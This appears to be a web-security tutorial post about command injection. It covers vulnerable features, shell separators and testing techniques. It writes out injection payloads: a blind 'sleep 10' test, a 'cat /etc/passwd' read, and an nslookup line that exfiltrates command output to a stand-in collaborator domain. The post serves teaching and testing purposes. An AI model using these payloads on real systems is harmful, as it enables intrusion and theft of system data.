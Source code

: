 ```yaml
---
title: Injection Attacks Beyond SQL and XXS
tags: Injection-Attacks
key: page-injection_attacks
categories: [Cybersecurity, Web Security]
author: hyoeun
math: true
mathjax_autoNumber: true
---
```


### 1\. Command Injection: The Shell is the Limit

Command Injection is one of the most critical vulnerabilities we can encounter. A successful attack can lead beyond simple data theft to the 'Holy Grail' of gaining direct control over the server.

#### **The Core Concept**

This vulnerability occurs when an application takes user input and passes it to an OS command, allowing an attacker to execute arbitrary system commands due to improper input validation and handling.

#### **Primary Attack Vectors**

This is often found in features where developers call the system shell directly for convenience.

  * **Diagnostic Tools**: Web interfaces that provide `ping`, `nslookup`, or `traceroute` functionality.
  * **File Handling**: Features for image conversion (e.g., ImageMagick), file compression/decompression, or file format conversion.
  * **Source Code Integration**: Git-related functions (e.g., repository cloning, log viewing).
  * **Legacy CGI Scripts**

#### **Exploitation Techniques**

A systematic approach is needed, going beyond a simple `whoami`.

1.  **Discovering Command Separators**: You must test various separators to bypass filtering environments.

      * **`;`**: Executes the second command even if the first one fails (most common).
      * **`&&`**: Executes the second command only if the first one succeeds.
      * **`||`**: Executes the second command only if the first one fails.
      * **`|`**: Pipes the output of the first command to the input of the second.
      * **Newline characters**: `%0a` or `\n`.
      * **Backticks (`` ` ``) or `$()`**: Command Substitution. Uses the execution result of one command as an argument for another.

    **Payload Example (Blind Command Injection):**
    `127.0.0.1; sleep 10` - Determines if a vulnerability exists by checking if the response is delayed by 10 seconds.

2.  **Data Exfiltration**:

      * **In-band**: `127.0.0.1; cat /etc/passwd` - Used when the command execution result is directly exposed on the webpage.
      * **Out-of-band (OAST)**: ` nslookup  `whoami`.your-burp-collaborator-domain.com` - Used when a direct response is difficult to obtain due to a firewall; data is exfiltrated externally using DNS queries.
